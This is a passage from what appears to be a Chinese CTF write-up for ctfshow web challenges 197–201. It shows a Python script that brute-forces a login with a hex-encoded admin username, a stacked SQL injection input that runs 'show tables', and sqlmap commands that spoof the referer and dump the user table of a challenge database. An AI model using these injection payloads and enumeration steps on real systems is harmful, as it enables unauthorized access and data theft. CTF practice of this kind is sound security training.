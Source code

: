 ```python
        }
        r = requests.post(url, data=data)
    data = {
        'username': '0x61646d696e',
        'password': f'{i}'
    }
    r = requests.post(url, data=data)
    if "登陆成功" in r.json()['msg']:
        print(r.json()['msg'])
        break
```

#### web198

同web197

#### web199

通解一把梭

#### web200

通解一把梭

#### web190-web200通解

```
username=0;show tables;
pass=ctfshow_user
```



#### sqlmap的使用

#### web201

```
 sqlmap最新版下载
 使用--user-agent 指定agent
 使用--referer 绕过referer检查
```

```
检测注入类型
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/sqlmap.php/api/?id= --user-agent sqlmap --referer ctf.show

爆数据库
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show --dbs

爆表
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D 
ctfshow_web --tables 

爆列
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D 
ctfshow_web -T ctfshow_user --columns

爆值
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```
